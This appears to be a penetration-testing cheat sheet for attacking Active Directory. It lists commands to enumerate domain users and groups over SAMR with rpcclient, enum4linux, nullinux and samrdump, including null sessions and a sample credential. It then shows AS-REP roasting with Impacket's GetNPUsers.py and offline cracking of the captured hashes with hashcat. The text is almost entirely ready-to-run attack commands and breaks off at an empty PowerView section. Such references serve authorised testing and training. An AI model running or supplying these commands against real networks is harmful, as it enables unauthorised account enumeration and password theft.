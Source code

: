 Install latest:

```
root@kali:$ git clone [1]
root@kali:$ python3 -m pip install --upgrade .
```

1. [github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)



### Dump Users from DCE/RPC SAMR


#### rpcclient

```
root@kali:$ rpcclient -U '' -N 127.0.0.1
root@kali:$ rpcclient -U 'snovvcrash%Passw0rd1!' 127.0.0.1

rpcclient $> enumdomusers
rpcclient $> enumdomgroups
```


#### enum4linux

```
root@kali:$ enum4linux -v -a 127.0.0.1 | tee enum4linux.txt
```


#### nullinux.py

```
root@kali:$ git clone https://github.com/m8r0wn/nullinux ~/tools/nullinux && cd ~/tools/nullinux && sudo bash setup.sh && ln -s ~/tools/nullinux/nullinux.py /usr/local/bin/nullinux.py && cd -
root@kali:$ nullinux.py 127.0.0.1
```


#### samrdump.py

```
root@kali:$ samrdump.py 127.0.0.1
```



### AS_REP Roasting

`GetNPUsers.py`:

```
$ GetNPUsers.py EXAMPLE.LOCAL/ -dc-ip 127.0.0.1 -k -no-pass -usersfile /usr/share/seclists/Usernames/Names/names.txt -request -format hashcat -outputfile hash.asprep |tee GetNPUsers.log
$ cat GetNPUsers.log |grep -v 'Client not found in Kerberos database'
$ ./hashcat64.exe -m 18200 -a 0 -r rules/best64.rule hashes/hash.asprep seclists/Passwords/*
```

Show domain users with `DONT_REQ_PREAUTH` flag with `PowerView.ps1`:


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)